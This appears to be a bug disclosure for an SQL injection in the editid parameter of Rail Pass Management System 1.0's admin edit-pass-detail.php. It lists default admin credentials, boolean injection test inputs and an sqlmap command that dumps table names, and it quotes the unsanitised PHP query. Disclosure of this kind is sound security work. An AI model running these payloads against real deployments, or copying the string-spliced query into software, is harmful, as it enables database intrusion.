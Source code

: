 # [Rail Pass Management System-SQL Injection-edit-pass-detail.php]

## Basic Information

**[Bug Reporter]:** DiliLearngent

**[Application Vendors]:** `https://phpgurukul.com/rail-pass-management-system-using-php-and-mysql/`

**[Affected Version]:** Rail Pass Management System V1.0

**[Test Environment]:** windows10+apache+php5.6+mysql5.5

**[Install]:**

1. Download the zip file

2. Extract the file and copy `rpms` folder

3. Paste inside root directory(for xampp xampp/htdocs, for wamp wamp/www, for lamp var/www/HTML)

4. Open PHPMyAdmin (http://localhost/phpmyadmin)

5. Create a database with the name `rpmsdb`

6. Import `rpmsdb.sql` file(given inside the zip package in the SQL file folder)

7. Run the script `http://localhost/rpms`

**Credential for Admin panel :**

**Username:** admin
**Password:** Test@123

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://localhost/rpms/admin/edit-pass-detail.php?editid=1`    

**[Vulnerability Location]:** rpms/admin/edit-pass-detail.php

**[Vulnerability Test]:**

1. When you enter `1%20and%201=1` in the `editid` parameter, the page displays as follows:

   ![](../../img/20230427164127.png)

   

2. When you enter `1%20and%201=2` in the `editid` parameter, the page displays as follows:

   ![](../../img/20230427164154.png)

3. Testing with sqlmap

   ```
   python sqlmap.py -u "http://localhost/rpms/admin/edit-pass-detail.php?editid=1" --cookie="PHPSESSID=4acbjc61q1opnkih7qmkd6g9t7" -D rpmsdb --tables --batch
   ```

   ![](../../img/20230427164442.png)

**[code analysis]:**

rpms/admin/edit-pass-detail.php

```php
$eid=$_GET['editid'];
$sql="SELECT * from  tblpass where ID=$eid";
$query = $dbh -> prepare($sql);
$query->execute();
$results=$query->fetchAll(PDO::FETCH_OBJ);
$cnt=1;
if($query->rowCount() > 0)
{
foreach($results as $row)
{               ?> 
```

The GET parameter `editid` is obtained without any filtering and spliced directly into the sql execution statement, and then a different page response exists depending on the result of the execution.